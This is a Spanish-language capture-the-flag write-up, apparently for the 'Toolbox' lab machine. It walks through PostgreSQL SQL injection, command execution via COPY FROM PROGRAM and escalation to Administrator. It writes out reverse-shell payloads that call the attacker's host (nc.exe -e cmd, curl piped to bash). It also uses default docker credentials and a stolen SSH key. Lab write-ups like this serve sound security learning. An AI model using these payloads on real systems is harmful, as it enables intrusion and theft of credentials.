# Toolbox



- Windows
- Vemos una web de Megalogistics
- Servidor ftp con login anónimo permitido
Nos descargamos un archivo *docker-toolbox.exe* poniendonos en modo binario para prevenir errores
```bash
binary
get docker-toolbox.exe
```

*PE32 executable for MS Windows 5.00*
- Aplicamos reconocimiento por smb
```bash
crackmapexec smb 10.129.96.171
```

*Windows 10 / Server 2019 Build 17763 x64 (name:TOOLBOX) (domain:Toolbox) (signing:False) (SMBv1:False)*
- Windows 10
- Intentamos listar por smb pero no podemos
```bash
smbclient -L 10.129.96.171 -N
smbmap -H 10.129.96.171
```

- Buscamos para qué sirve *docker-toolbox.exe* y vemos que es para poder ejecutar docker en sistemas operativos que no lo soportan de forma nativa, como es windows.

- Vemos que existe un https donde hay un certificado con los dominios megalogistic.com y admin.megalogistic.com
Podemos comprobarlo con
```bash
openssl s_client -connect 10.129.96.171:443
```



Lo agregamos al /etc/hosts

- Vemos un panel de autenticación en admin.megalogistic.com



- Si escribimos una comilla vemos que salta un error



- SQLi

- Probamos con **sqlmap** por variar
```bash
sqlmap -r req.txt --force-ssl --batch
```

siendo req.txt la petición copiada y pegada de burpsuite con los parámetros vulnerables (es importante que el valor en la petición sea test o un string y no ' porque si no peta)
- Obtenemos un *session.sqlite* pero vemos las columnas *id value* con datos cifrados

- Vamos a usar hacktricks para buscar por *postgres* que es la db que vemos que tiene la máquina (el error muestra *pg_query*)
Encontramos *postgresql inyection*
Vemos que el paylaod para comprobar si es vulnerable es
```bash
; select pg_sleep(10);-- -
```

- Lo añadimos después de *username=x* y vemos que la página tarda 10 segundos en cargar

- Vemos un posible RCE



- Vamos a hacerlo paso por paso desde burp. El código de a continuación siempre va detrás del parámetro *user=x*, es decir solo escribo el payload
1. Creamos una tabla temporal con la que ejecutar  comandos y volcarlos en el campo cmd_output
```bash
CREATE TABLE cmd_exec(cmd_output text);
```

2. Ejecutamos un comando de revshell en lugar de 'id'. Intentaremos llamar a un recurso compartido por smb en nuestra máquina para usar nc.exe y entablar la shell
```bash
impacket-smbserver smbFolder  $(pwd) -smb2support
COPY cmd_exec FROM PROGRAM '\\10.10.16.179\smbFolder\nc.exe -e cmd 10.10.16.179 443';-- -
```

El servidor parece no hacer la llamada  a nuestro servidor smb

- Hemos visto al principio la existencia de un **docker-toolbox.exe**, lo que nos hace pensar que puede ser que el postgresql esté levantado en un contenedor dentro de la máquina víctima, y es bastante probable que este contenedor sea linux, NO windows.
Probaremos a entablarnos la revshell con **curl** y el oneliner de bash
```bash
COPY cmd_exec FROM PROGRAM 'curl 10.10.16.179/test|bash';-- -
```

Habiéndonos creado previamente un script con el oneliner en nuestra máquina y levantando un servidor http



Si no funciona, sustituir los espacios por + en la petición
postgres

## Escalada

- Estamos en un contenedor con ip **172.17.0.2**

-
```bash
route -n
```



La interfaz de docker es la 172.17.0.1, a través de la cual se conecta con la máquina víctima

- Vemos en /etc/passwd solo el usuario postgres

- Hay un usuario **tony** en */home*

- En /var/www/admin/config_psql.php vemos credenciales de postgresql



postgres:password

- Nos conectamos a la db desde el contenedor
```bash
psql -U postgres -h localhost test
```

```sql
\d
select * from users;
```



admin:4a100a85cb5ca3616dcf137918550815

- hashid nos reporta varios tipos de hashes
```bash
hashid -m hash.txt
```



- No conseguimos crackear a priori la passwd, puede ser que existe un salt o algo parecido
Buscamos más info en los archivos del contenedor

- Encontramos en /var/www/admin/index.php que el login se hace con md5



- Vemos archivos de backup en /var/backups pero no tenemos permisos



- Buscamos alguna montura pero no encontramos nada
```bash
mount | grep home
```

- Buscando en google por docker-toolbox vemos que es posible que existan default credentials por ssh
https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password
docker:tcuser

- Intentaremos desde el contenedor, hacia la interfaz 172.17.0.1 ver si el puerto ssh está abierto y conectarnos por ssh
```bash
(echo '' >/dev/tcp/172.17.0.1/22) 2>/dev/null && echo "[+] Puerto abierto" || echo "[-] Puerto cerrado"
```



- Nos conectamos por ssh
```bash
ssh docker@172.17.0.1
```

tcuser
docker

## Escalada

- IP:  10.0.2.15
- En la raíz vemos un directorio **c** que parece que es la raíz de la máquina windows, que de alguna forma se comunica con este contenedor linux

- Encontramos una **id_rsa** en */c/Users/Administrator/.ssh/id_rsa*
Nos lo copiamos en un archivo
```bash
nano id_rsa
chmod 600 id_rsa
ssh administrator@10.129.96.171 -i id_rsa
```

administrator
